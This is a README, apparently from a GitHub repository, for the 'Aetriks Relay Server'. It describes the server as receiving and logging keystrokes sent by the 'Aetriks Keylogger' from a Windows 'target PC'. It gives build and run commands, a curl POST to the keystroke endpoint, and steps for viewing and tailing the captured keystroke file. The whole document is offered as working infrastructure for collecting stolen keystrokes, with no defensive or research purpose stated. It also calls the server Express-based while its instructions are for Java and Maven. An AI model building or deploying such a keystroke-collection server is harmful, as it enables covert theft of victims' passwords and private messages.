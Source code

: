 # Aetriks Relay Server

The Aetriks Relay Server is a lightweight Express-based server designed to receive and log keystroke data from the Aetriks Keylogger running on a Windows target PC.

---

## Features

- POST /api/keystrokes for logging key data

- GET / for viewing formatted keystroke logs

## Prerequisites
- Java 17 or higher (java -version)

- Maven, or use the provided Maven Wrapper (./mvnw)

### Installation & Running

- Clone the repository

``` bash
git clone <repo-url>  
cd aetriks-relay-java  
```

- Build and run
``` bash
mvn clean install  
mvn spring-boot:run  
```
- Or using the Maven Wrapper:
```bash
./mvnw clean install  
./mvnw spring-boot:run  
```
- Run the packaged application
```bash
java -jar target/aetriks-relay-java-0.0.1-SNAPSHOT.jar  
```
- Override default port (e.g. 9090):
```bash
java -jar target/*.jar --server.port=9090  
```

- Usage
Log keystrokes

```bash
curl -X POST http://hostip:8080/api/keystrokes \
  -H "Content-Type: application/json" \
  -d '{"keyboardData":"your keystrokes here"}'
```

- View logs
Open in browser or use:

```bash
curl http://hostip:8080/
```
- Monitor keystroke file
```bash
tail -f keyboard_capture.txt
```
---
